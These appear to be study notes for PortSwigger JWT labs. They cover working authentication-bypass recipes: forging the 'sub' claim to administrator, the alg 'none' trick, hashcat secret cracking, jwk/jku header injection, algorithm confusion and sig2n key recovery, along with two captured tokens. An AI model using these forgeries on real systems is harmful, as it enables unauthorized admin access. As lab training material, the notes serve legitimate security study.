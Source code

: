 # JWT

 Symmetric Key  : HS256
 ASymmetric key : RSA

### Lab: JWT authentication bypass via unverified signature

Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```

### Lab: JWT authentication bypass via flawed signature verification

Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}
- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```

### Lab: JWT authentication bypass via weak signing key

Payload
```
step 1 : Brute-force the secret key

	hashcat -a 0 -m 16500 complete_jwt_tokens ./jwt.secrets.list  : secret1
	Encode in base64 secret1 : c2VjcmV0MQ==

step 2: Generate a forged signing key

	 - JWT Editor Keys tab and click New Symmetric Key : Generate
	 - Replace the generated value for the k property with the Base64-encoded secret.

step 3 - Modify and sign the JWT
		
	 - {"iss":"portswigger","exp":1760963935,"sub":"wiener"}
	 - {"iss":"portswigger","exp":1760963935,"sub":"administrator"}

	 - Sign, then select the key that you generated .



```

## JWT header parameter injections

- According to the JWS specification, only the alg header parameter is mandatory. In practice, however, JWT headers (also known as JOSE headers) often contain several other parameters. The following ones are of particular interest to attackers.

		- 	jwk (JSON Web Key) - Provides an embedded JSON object representing the key.
		-	jku (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.
		-	kid (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching kid parameter.

### Lab: JWT authentication bypass via jwk header injection

Payload
```
- JWT Editor Keys tab.
- Generate a new RSA key .
- JSON Web Token tab and modify the token's payload however you like.
- Click Attack, then select Embedded JWK.
- you may also need to update the JWT's kid header parameter to match the kid of the embedded key

```

### Lab: JWT authentication bypass via jku header injection

Payload
```
step 1: Generate a RSA signing key
	- JWT Editor Keys tab.
	- Generate a new RSA key 
	- Paste the RSA key on exploit server in below section :
		{
    	"keys": [
    		// Generate a new RSA key 
    		]
		}

- step 2 - Modify and sign the JWT
	- Match the both kid values (new values)
	- Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.
	- sub  : administrartor 
	- Sign with RSA key
```

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/jwt-jku.jpg)


<hr>

### Lab: JWT authentication bypass via algorithm confusion


Payload
```
step 1 — Obtain the server public key
	- Open /jwks.json in the browser and copy the single JWK object from the keys array (copy only the object).

step 2 — Create a malicious symmetric key in Burp

	- In Burp → JWT Editor → Keys: New RSA Key → choose JWK and paste the copied JWK; save.
	- Right-click the new key → Copy Public Key as PEM.
	- Base64-encode that PEM (use Decoder tab) and copy the Base64 string.
	- In JWT Editor → Keys: New Symmetric Key → Generate, then replace the k value with the Base64-encoded PEM; save.

Step 3 — Modify and sign the token

	- Open the GET /admin request in Repeater, switch to the JWT Editor tab.
	- Change JWT header alg → HS256.
	- Change payload claim sub → administrator.
	- Click Sign, pick the symmetric key you created, ensure Don't modify header is selected, and sign.
	- Send the request — you should now access the admin panel.

```


eyJraWQiOiJkMDViODA0OS0zMTJhLTQ5ZDEtOWEzMS1mYzZhZGYyMzA5MDMiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MTA4ODA4OSwic3ViIjoid2llbmVyIn0.lS8m_gxpM4IOtEdpN4qRmi9y78y27xfWUCQd9Rhe7mn4MVpvjvPC0zwgD54Y1zOYUohmAHScqQHpqskJ7xm1BviNseldHnuyskG1cdi1DRd_-nglQAGfyor7Zq37wS05TzWIBCvlNgoA3fl53bQMbAAtoNACRgEkRCxwbT3_TAu0rxohctZKXF92sTQxqwsu0EbCgU-UzpAJid9Q9hZBGDy9v0MhFoe-T67RCjZEgrOkFSp6tuu0-KneQa2Rd39T4WMMKAJpzneUDX6U-IISChZaK06ORCNnWQIHmSfXas6Burt8HzqHOxbXb5KrnGQBOJ7Em6fRUrpXMxR1j_h9nQ


eyJraWQiOiJkMDViODA0OS0zMTJhLTQ5ZDEtOWEzMS1mYzZhZGYyMzA5MDMiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MTA4ODE3OSwic3ViIjoid2llbmVyIn0.LwNBoOjD0-VwaVQeZ9ELLWDQPUzqR5Uk-vbdMtbM3DVwWWl2xohuE_Qqhi6vQ4p7YdQuYIhrrRSU-nHhZS90nPInvLFLFqYbxrB83Pl9TWxForedKF8eHAKlZ6V7YlmQpknU0divlLb05daF6JeslBbDlXicSy41Gl4KOZncssUwMY-meARFLd9c2vNYwL08KpwJcguSXCXYd7mtrFp2mJj6aLrQbSpMTjtC8iVdzOW4SYnnFpr22gSQoRV8uL1XS66yJNr-WzbFuG88-YnlduywfKuBRbdIpQHhVq6UQbDefC73oWjwkTUMjMIg1AhD1wIhe4labSni8sm5W4Rr6w


Payload
```
Step1:  Collect two valid JWTs
	- Log in, capture the session JWT (/my-account → store cookie).
	- Log out, log in again, capture a second JWT.
Step2: Brute-force candidate public keys
	- Run docker run --rm -it portswigger/sig2n <token1> <token2>.
	- The tool outputs candidate n values, Base64 X.509/PKCS1 public keys and tampered JWTs.
Step1: Find the server’s actual public key
	- For each tampered JWT (X.509 entry) replace your session cookie in Burp and request /my-account.
	- A 200 means you found the correct X.509 key; a 302 redirect to /login means it’s wrong.
	- Create a symmetric key in Burp
	- In JWT Editor → Keys → New Symmetric Key → Generate JWK.
	- Replace the k value with the Base64 X.509 key you identified (use the key itself, not the tampered JWT). Save.
	- Forge and sign an admin token
	- In Repeater open the JWT (JWT Editor tab). Set header alg: HS256.
	- Change payload claim sub to administrator.
	- Sign with the symmetric key you created (ensure “Don't modify header” is selected). This uses the server’s public key as the HMAC secret.
```